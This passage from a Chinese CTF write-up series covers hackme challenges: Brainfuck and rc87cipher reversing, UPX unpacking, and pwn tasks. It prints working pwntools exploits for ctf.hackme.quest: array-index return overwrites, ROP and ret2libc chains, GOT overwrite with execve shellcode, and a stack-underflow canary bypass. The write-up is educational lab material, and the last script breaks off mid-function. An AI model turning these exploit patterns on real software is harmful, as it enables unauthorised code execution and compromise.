>-]<-<[-]]>[-]<,>>++++++++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++[<++++++++++>-]<++++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++++++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>+++[<++++++++++>-]<+++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<,>>++++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<>++++++++[<++++++++++>-]<+++.[-]>+++++++++++[<++++++++++>-]<++++++.[-]>+++++++++[<++++++++++>-]<+++++++.[-]>+++++++++++[<++++++++++>-]<++++++.[-]>+++++++++++[<++++++++++>-]<+++++++.[-]>+++++++++++[<++++++++++>-]<+++++.[-]>+++++[<++++++++++>-]<++++++++.[-]>+++[<++++++++++>-]<++.[-]<[>+>+<<-]>>[<<+>>-]<[->-<]+>[<->[-]]+<[>>>+++++++[<++++++++++>-]<+.[-]>+++++++++++[<++++++++++>-]<+.[-]>+++++++++++[<++++++++++>-]<+.[-]>++++++++++[<++++++++++>-]<.[-]<-<[-]]>[>>++++++[<++++++++++>-]<++++++.[-]>+++++++++[<++++++++++>-]<+++++++.[-]>++++++++++[<++++++++++>-]<.[-]<-]<>+++[<++++++++++>-]<++.[-]>++++++++++[<++++++++++>-]<++.[-]>++++++++++[<++++++++++>-]<++++++++.[-]>+++++++++[<++++++++++>-]<+++++++.[-]>++++++++++[<++++++++++>-]<+++.[-]++++++++++.[-][][]+++
```

对应`44`个输入：

```
<+++.[-]>,>>+++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++[<++++++++++>-]<++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++++[<++++++++++>-]<+++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++[<++++++++++>-]<++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++[<++++++++++>-]<+++++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++[<++++++++++>-]<++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++[<++++++++++>-]<++++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<+<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++[<++++++++++>-]<++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++[<++++++++++>-]<++++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++[<++++++++++>-]<+++++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++++++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>+++[<++++++++++>-]<+++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
<,>>++++++++++++[<++++++++++>-]<+++++<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]
```

只留一个输入的时候进行测试：

```
>+++++++[<++++++++++>-]<.[-]>++++++++++[<++++++++++>-]<++++++++.[-]>+++++++++[<++++++++++>-]<+++++++.[-]>++++++++++[<++++++++++>-]<+++.[-]>++++++[<++++++++++>-]<+++.[-]>,>>+++++++[<++++++++++>-]<<[->-<]+>[<->[-]]<[>+<[-]]+>[<->-]+<[>>+<<<[-]>>>[<<<+>>>-]<-<[-]]>[-]<>++++++++[<++++++++++>-]<+++.[-]>+++++++++++[<++++++++++>-]<++++++.[-]>+++++++++[<++++++++++>-]<+++++++.[-]>+++++++++++[<++++++++++>-]<++++++.[-]>+++++++++++[<++++++++++>-]<+++++++.[-]>+++++++++++[<++++++++++>-]<+++++.[-]>+++++[<++++++++++>-]<++++++++.[-]>+++[<++++++++++>-]<++.[-]<[>+>+<<-]>>[<<+>>-]<[->-<]+>[<->[-]]+<[>>>+++++++[<++++++++++>-]<+.[-]>+++++++++++[<++++++++++>-]<+.[-]>+++++++++++[<++++++++++>-]<+.[-]>++++++++++[<++++++++++>-]<.[-]<-<[-]]>[>>++++++[<++++++++++>-]<++++++.[-]>+++++++++[<++++++++++>-]<+++++++.[-]>++++++++++[<++++++++++>-]<.[-]<-]<>+++[<++++++++++>-]<++.[-]>++++++++++[<++++++++++>-]<++.[-]>++++++++++[<++++++++++>-]<++++++++.[-]>+++++++++[<++++++++++>-]<+++++++.[-]>++++++++++[<++++++++++>-]<+++.[-]++++++++++.[-][][]+++
```

```sh
#https://github.com/elikaski/BF-it
root1@root1-virtual-machine:~$ python3 Interpreter.py code2
Flag?F
Status: Good flag
```

可以对每个输入进行测试遍历找出`flag`。

还可以把`brainfuck`代码转换成`c`代码去分析代码逻辑。`https://github.com/paulkaefer/bftoc`。

```python
#https://blog.maple3142.net/2020/07/23/hackme-ctf-experience-and-hints/#termvis
code = '...' # brainfuck 程式

with open('bf.c', 'w') as f: # 輸出到 bf.c
    def w(x): return f.write(x + '\n')
    w("#include <stdio.h>")
    w("char d[100]={};")
    w("int main(){")
    ptr = 0
    for c in code:
        if c == '.':
            w(f'putchar(d[{ptr}]);')
        elif c == ',':
            w(f'd[{ptr}]=getchar();')
        elif c == '<':
            ptr -= 1
        elif c == '>':
            ptr += 1
        elif c == '+':
            w(f'd[{ptr}] += 1;')
        elif c == '-':
            w(f'd[{ptr}] -= 1;')
        elif c == '[':
            w(f'while (d[{ptr}]) {{')
        elif c == ']':
            w('}')
    w("return 0;")
    w("}")
```

#### 57 Reversing    rc87cipher

write up：

程序是加了`upx`壳。

##### ##radare2

```
ood                        reopen in debug mode
dcs                        Continue until next syscall
dm                         List memory maps of target process
s addr                     Seek to address
pf.fmt_name                Show data using named format
pf fmt                     Show data using the given format-string.
pf ?                       data structure `pf ? (struct_name)example_name`
pf {integer}? (bifc)       Print integer times the following format (bifc)
```

```
[0x00400000]> pfo?
|Usage: pfo [format-file]
 ~/.config/radare2/format
 /usr/share/radare2/2.3.0/format/
```

```
[0x00400000]> px @ $$+0x10!0x2c
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00400010  0200 3e00 0100 0000 a009 4000 0000 0000  ..>.......@.....
0x00400020  4000 0000 0000 0000 f8cb 0c00 0000 0000  @...............
0x00400030  0000 0000 4000 3800 0600 4000            ....@.8...@.
```

##### ##upx脱壳--radare2

Example：

[](https://asciinema.org/a/35005?autoplay=1)

`upx`在解压的时候不会加载库文件，只会一直调用`syscall`，并且解压最后的一个`syscall`是`munmap`。`pf 9? (elf_phdr)phdr @ $$+0x40!0x200`查看前`9`个`elf_phdr`，范围从`0x400040`到`0x400240`。再把程序`type == PT_LOAD`的段拷贝下来。

rc87cipher：

[](https://asciinema.org/a/SRlubXOM08Ijn6qAahOQ6EQvI?autoplay=1)

对程序进行逆向，还原加密代码，并且实现对应的解密代码。

```c
#include <stdio.h>
void box_c(unsigned int a,unsigned int b,unsigned char sbox[0x100])
{
    int i;
    int tmp;
    for(i=0;i<0x24;i++)
    {
        a=((0xff-a)*13)&0xff;
        b=((0xff-b)*17)&0xff;
        tmp=sbox[a];
        sbox[a]=sbox[b];
        sbox[b]=tmp;
        
    }
}
void generate_sbox(unsigned char sbox[0x100],unsigned char iv[8])
{
    int i;
    for(i=0;i<0x100;i++)
        sbox[i]=i;
    for(i=0;i<8;i++)
    {
        box_c(i,iv[i],sbox);
    }
    
}
void encrypt(FILE *fp,FILE *op,unsigned char *password)
{
    int i,j;
    unsigned char data,enc_data;
    unsigned int itmp,tmp;
    unsigned char iv[8]={0x2d,0xeb,0xbb,0xe3,0xba,0x13,0xef,0x89};//read_from_urandom
    unsigned char sbox[0x100];
    generate_sbox(sbox,iv);
    for(i=0;i<0x100;i++)
    {
        printf("%02x ",sbox[i]);
        if((i+1)%0x10==0)
            printf("\n");
    }
    fwrite(iv,8,1,op);
    i=0;
    while(fread(&data,1,1,fp)==1)
    {
        box_c(i,password[i],sbox);
        i++;
        if(password[i]==0)
            i=0;
        itmp=0xDEADBEEF;
        for(j=0;j<0x100;j++)
            itmp=(0xc8763*sbox[j])^(0x5A77*itmp);
        enc_data=(itmp^(data*0x11))&0xff;
        fwrite(&enc_data,1,1,op);
    }
}
void decrypt(FILE *fp,FILE *op,unsigned char *password)
{
    int i,j;
    unsigned char data,enc_data;
    unsigned int itmp,tmp;
    unsigned char iv[8];
    unsigned char sbox[0x100];
    fread(iv,8,1,fp);
    generate_sbox(sbox,iv);
    for(i=0;i<0x100;i++)
    {
        printf("%02x ",sbox[i]);
        if((i+1)%0x10==0)
            printf("\n");
    }
    i=0;
    while(fread(&enc_data,1,1,fp)==1)
    {
        box_c(i,password[i],sbox);
        i++;
        if(password[i]==0)
            i=0;
        itmp=0xDEADBEEF;
        for(j=0;j<0x100;j++)
            itmp=(0xc8763*sbox[j])^(0x5A77*itmp);
        data=((itmp^enc_data)*0xf1)&0xff;
        fwrite(&data,1,1,op);
    }
}
int main(int argc,char *argv[])
{
    if(argc<=4)
    {
        printf("Usage: %s enc/dec password input output\n", argv[0]);
        return 0;
    }
    unsigned char *password=argv[2];
    FILE *fp,*op;
    fp=fopen(argv[3],"rb");
    if(fp==NULL)
        printf("Can not open input file");
    op=fopen(argv[4],"wb");
    if(op==NULL)
        printf("Can not open output file");
    if((argv[1][0]&0xdf)=='E')
        encrypt(fp,op,password);
    if((argv[1][0]&0xdf)=='D')
        decrypt(fp,op,password);
    fclose(fp);
    fclose(op);
    return 0;
}
```

需要还原`password`才能恢复`flag`。按字节穷尽`password`：

```
#include <stdio.h>
#include <string.h>
void box_c(unsigned int a,unsigned int b,unsigned char sbox[0x100])
{
    int i;
    int tmp;
    for(i=0;i<0x24;i++)
    {
        a=((0xff-a)*13)&0xff;
        b=((0xff-b)*17)&0xff;
        tmp=sbox[a];
        sbox[a]=sbox[b];
        sbox[b]=tmp;
        
    }
}
void generate_sbox(unsigned char sbox[0x100],unsigned char iv[8])
{
    int i;
    for(i=0;i<0x100;i++)
        sbox[i]=i;
    for(i=0;i<8;i++)
    {
        box_c(i,iv[i],sbox);
    }
    
}
void get_next_byte(unsigned char* iv,unsigned char *stmp,unsigned char *password,int len)
{
    int i,j;
    unsigned int itmp;
    unsigned char sbox[0x100];
    unsigned char tmp_sbox[0x100];
    generate_sbox(sbox,iv);
    for(i=0;i<len;i++)
        box_c(i,password[i],sbox);
    for(i=0x21;i<0x7f;i++)
    {
        memcpy(tmp_sbox,sbox,0x100);
        box_c(len,i,tmp_sbox);
        itmp=0xDEADBEEF;
        for(j=0;j<0x100;j++)
            itmp=(0xc8763*tmp_sbox[j])^(0x5A77*itmp);
        itmp=itmp&0xff;
        if(itmp==stmp[len])
        {
            password[len]=i;
            if(i=='}'&&len==39)
            {
                for(j=0;j<=len;j++)
                    printf("%c",password[j]);
                printf("\n");
            }
            if(len<40)
                get_next_byte(iv,stmp,password,len+1);
        }
            
    }
}
void get_password(unsigned char *iv,unsigned char *stmp)
{
    unsigned char sbox[0x100];
    unsigned char password[64]={0};
    get_next_byte(iv,stmp,password,0);
}
int main()
{
    int i;
    unsigned char iv[8];
    unsigned char stmp[0x100];
    FILE *fp,*op;
    fp=fopen("rc87","rb");
    op=fopen("rc87.enc","rb");
    fread(iv,1,8,op);
    for(i=0;i<0x100;i++)
        stmp[i]=((fgetc(fp)*0x11)&0xff)^fgetc(op);
    fclose(fp);
    fclose(op);
    get_password(iv,stmp);
    return 0;
}
```

#### 58 Pwn    catflag

简单的示例。直接`nc`连接服务器端口，`cat flag`即可。

#### 59 Pwn    homework

write up：

部分代码：

```c
void run_program()
{
	int arr[10]; // [esp+14h] [ebp-34h]
	... ...
	__isoc99_scanf("%d", &act);
    switch ( act )
    {
      case 0:
        return;
      case 1:
        printf("Index to edit: ");
        __isoc99_scanf("%d", &i);
        printf("How many? ");
        __isoc99_scanf("%d", &v);
        arr[i] = v;
        break;
	... ...
}
```

可以修改栈里的值。

```c
void call_me_maybe()
{
  system("/bin/sh");
}
```

直接修改`ret_addr`到`call_me_maybe`。

```python
from pwn import *

#context.log_level="debug"
#p=process("./homework")
p=remote("ctf.hackme.quest",7701)

elf = ELF("./homework")
call_me_maybe=elf.symbols['call_me_maybe']
p.recvuntil(b"What's your name? ")
p.sendline(b"test")

p.recvuntil(b"dump all numbers\n > ")
p.sendline(b"1")
p.recvuntil(b"Index to edit: ")
p.sendline(b"14")
p.recvuntil(b"How many? ")
p.sendline(str(call_me_maybe).encode())

p.recvuntil(b"dump all numbers\n > ")
p.sendline(b"0")

p.sendline(b"ls")
p.interactive()
```

#### 70 Pwn    rsbo

参考：

```
https://xz.aliyun.com/t/3703
```

write up：

```c
char buf[80]; // [esp+10h] [ebp-60h] BYREF
v7 = read_80_bytes(buf);
```

```c
ssize_t __cdecl read_80_bytes(void *buf)
{
  return read(0, buf, 0x80u);
}
```

`buf`的大小是`80=0x50`，但是`read`的长度是`0x80`,存在栈溢出的漏洞。

```c
int v5; // [esp+60h] [ebp-10h]
int v6; // [esp+64h] [ebp-Ch]
signed int v7; // [esp+68h] [ebp-8h]
for ( i = 0; i < v7; ++i )
  {
    v6 = rand() % (i + 1);
    v5 = buf[i];
    buf[i] = buf[v6];
    buf[v6] = v5;
  }
```

`for`循环交换第`i`个字符和`<=i`的某个字符的值。而`v5=*(int *)(buf+0x50)`，`v6=*(int *)(buf+0x54)`，`v7=*(signed int *)(buf+0x58)`，并且`v7<=0x80`，`v6<=0x80`。`buf`前`0x58`填充的值`<=0x58`，那么`for`循环到`0x58`的时候将退出，栈溢出部分将不会被破坏。

```
mov     ebp, esp
and     esp, 0FFFFFFF0h
sub     esp, 70h
```

通过调试发现`ebp=esp-0x70-8`，`buf=esp+0x10=ebp-0x68`，`ret_addr`的值放在栈`ebp+4=buf+0x6c`。

利用方法：

- 利用`open`，`read`，`write`函数把`/home/ctf/flag`中的flag打印出来
- 注意`fd = 0`时代表标准输入`stdin`，`1`时代表标准输出`stdout`，`2`时代表标准错误`stderr`，`3~9`则代表打开的文件，这里我们只打开了一个文件，那么`fd`就是`3`。
- `and     esp, 0FFFFFFF0h`，`esp`偏移在不同情况下不一样。使用`start`填充`ret_addr`时，偏移一致，使用`main`填充`ret_addr`需要进一步调试。可以通过穷尽找到。
- 发送的数据，可能会把两段数据拼凑在一起。发送数据长度为`0x80`时，或者间隔`sleep(0.5)`，更加稳定。

```python
from pwn import *

#context.log_level="debug"
#p = process("./rsbo")
p = remote("ctf.hackme.quest", 7706)

elf = ELF("./rsbo")
start = 0x08048490
open_plt = elf.symbols["open"]
read_plt = elf.symbols["read"]
write_plt = elf.symbols["write"]
bss = elf.bss()
offset = 0x6c
flag_add = 0x80487d0


payload = b'\x00'*offset + p32(open_plt) + p32(start) + p32(flag_add)  + p32(0) 
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)
payload = b'\x00'*offset + p32(read_plt) + p32(start) + p32(0x3) + p32(bss) + p32(0x60)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)
payload = b'\x00'*offset + p32(write_plt) +p32(0xdeadbeef) + p32(1) + p32(bss) + p32(0x60)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)

print(p.recv())
p.close()
```

#### 71 Pwn    rsbo-2

参考：

```
https://xz.aliyun.com/t/3703
```

write up：

```python
from pwn import *

#context.log_level="debug"
#p = process("./rsbo")
p = remote("ctf.hackme.quest", 7706)

elf = ELF("./rsbo")
libc = ELF("./libc-2.23.so.i386")
start = 0x08048490
write_plt = elf.plt["write"]
write_got = elf.got["write"]
read_plt = elf.plt["read"]
read_got = elf.got["read"]
bss = elf.bss()
offset = 0x6c


payload = b"\x00" * offset + p32(write_plt) + p32(start) + p32(1) + p32(read_got) + p32(4)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)
read = u32(p.recv(4))
libc_base=read-libc.symbols["read"]
print("libc   base: %08x"%libc_base)
system_addr = libc_base +libc.symbols["system"]
print("system addr: %08x"%system_addr)

payload = b"\x00" * offset + p32(read) + p32(start) + p32(0) + p32(bss) + p32(8)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)
p.send(b"/bin/sh\x00")

payload = b"\x00" * offset + p32(system_addr) + p32(start) + p32(bss)
payload = payload + b'\x00'*(0x80 - len(payload))
p.send(payload)

p.sendline(b"ls")
p.interactive()
```

#### 72 Pwn    leave_msg

write up：

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

可以看到`Stack`是可执行的，并且还具有`RWX`权限的`segments`。

```c
    read(0, nptr, 0x10u);
    v3 = atoi(nptr);
    if ( strlen(buf) > 8 )
    {
      puts("Message too long, truncated.");
      buf[8] = 0;
    }
    if ( v3 > 0x40 || nptr[0] == '-' )
      puts("Out of bound.");
    else
      dword_804A060[v3] = (int)strdup(buf);
```

读取一个字符串，然后转换成数字，并且字符串的第一个字符不能时`-`（负号）。在输入的数字前加空白字符`\r\n\t \f\v`就可以轻松绕过。利用这个特点可以修改`got`表的函数。

先修改`strlen`函数，返回值为`0`。再修改`puts`函数，放入`shellcode`。注意`shelcode`中不能有`\x00`字符。

##### ##shellcode

```assembly
global _start
_start:
xor eax,eax
push eax
push "//sh"
push "/bin"
mov ebx,esp
push eax
mov edx,esp
push ebx
mov ecx,esp
mov al,0Bh
int 80h
```

```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

```python
from pwn import *

#context.log_level="debug"
#p = process("./leave_msg")
p = remote("ctf.hackme.quest",7715)


print(p.recvuntil(b'message:\n'))
p.send(b"\x31\xc0\xc3\x00")
print(p.recvuntil(b"slot?\n"))
p.send(b" -15")

print(p.recvuntil(b'message:\n'))
p.send(b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
print(p.recvuntil(b"slot?\n"))
p.send(b" -16")

p.sendline(b"ls")
p.interactive()
```

#### 73 Pwn    stack

write up：

文件的保护全都开了。

```sh
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

对比一下源码和反汇编代码。

```c
struct stack {
    int n;
    int data[4096];
//    int data[64];
};


	case 'p':
    if (s.n > 0) {
        printf("Pop -> %d\n", stack_pop(&s));
    } else {
        printf("Error: stack is empty\n");
    }
    //printf("Pop -> %d\n", stack_pop(&s));
    break;
```

```c
    case 'p':
        v3 = stack_pop(v6);
        printf("Pop -> %d\n", v3);
        goto LABEL_9;
```

源码和反汇编是有区别的。反汇编的代码缺少判断，`s.n`可以小于或等于`0`。通过操作可以绕过`canary`直接修改栈里的某个值，绕过`canary`的保护。

 修改`stack[i]=j`（对应`data[i-1]`）的值，步骤：

```
clear stack
pop
push i-1   ---> stack.n=i-1
push j     ---> data[i-i]=j
```

后面就是构造常规的`rop`链获取`shell`。

```python
import re
from pwn import *

patt1=re.compile(b'Pop -> (.*)\nCmd >>\n')

#context.log_level="debug"
p=remote("ctf.hackme.quest",7716)
libc = ELF("./libc-2.23.so.i386")
offset=247

def pop():
    p.sendline(b'p')
    recv_data=p.recvuntil(b"Cmd >>\n")
    return patt1.findall(recv_data)[0].decode()
def push(val):
    p.sendline(b'i '+val.encode())
    recv_data=p.recvuntil(b"Cmd >>\n")
def exit():
    p.sendline(b'x')
    p.recv()

p.recvuntil(b"Cmd >>\n")
pop()
push("93")
lib_main=int(pop())-libc.symbols['__libc_start_main']-offset


system_addr=(lib_main+libc.symbols['system'])
sh_addr=(lib_main+next(libc.search(b'/bin/sh')))

push(str(system_addr))
push('0')
push(str(sh_addr))
exit()

p.sendline(b"ls")
p.interactive()
```

#### 78 Pwn    tictactoe-1

write up：

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

```c
unsigned int sub_8048A4B()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("\nInput move (9 to change flavor): ");
  v1 = sub_804871C();
  if ( v1 == 9 )
  {
    read(0, buf, 4u);
    byte_804B04C = buf[0];
    sub_8048A4B();
  }
  else
  {
    *(_BYTE *)(v1 + 0x804B056) = byte_804B04C;
    if ( sub_80486F0(v1) )
      *(_BYTE *)(v1 + 0x804B04D) = -1;
  }
  return __readgsdword(0x14u) ^ v3;
}
```

`v1`可以为负数，那么可以往任意地址上写值。

修改`got`表，`put` 函数对应的值`0x804B084`修改为`0x8048C46`。

```c
for ( i = 0; i <= 8 && !check_result(); ++i )
  {
    if ( dword_804B048 == -1 )
    {
      sub_80489C0();
    }
    else
    {
      sub_8048762();
      sub_8048A4B();
    }
    dword_804B048 = -dword_804B048;
  }
```

正常情况下，我们只能修改`5`个字节。但是如果把`dword_804B048`值改成`0`（不为`1`及`-1`都可以），那么我们就能再修改`8`个字节。

```python
import struct
from pwn import *

#context.log_level="debug"
#p=process("./tictactoe")
p=remote("ctf.hackme.quest",7714)

move_addr=0x804B056
init_addr=0x804B048
def tict_init():
    p.recvuntil(b"Play (1)st or (2)nd? ")
    p.sendline(b"1")

    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(b"9")
    p.sendline(b"\x00")
    p.recvuntil(b"Input move (9 to change flavor): ")
